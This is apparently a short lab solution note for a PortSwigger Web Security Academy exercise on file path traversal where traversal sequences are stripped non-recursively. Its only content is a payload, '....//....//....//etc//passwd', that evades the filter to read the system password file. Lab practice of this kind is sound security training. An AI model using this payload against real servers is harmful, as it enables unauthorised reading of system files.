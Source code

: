 # [File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)
```
....//....//....//etc//passwd
```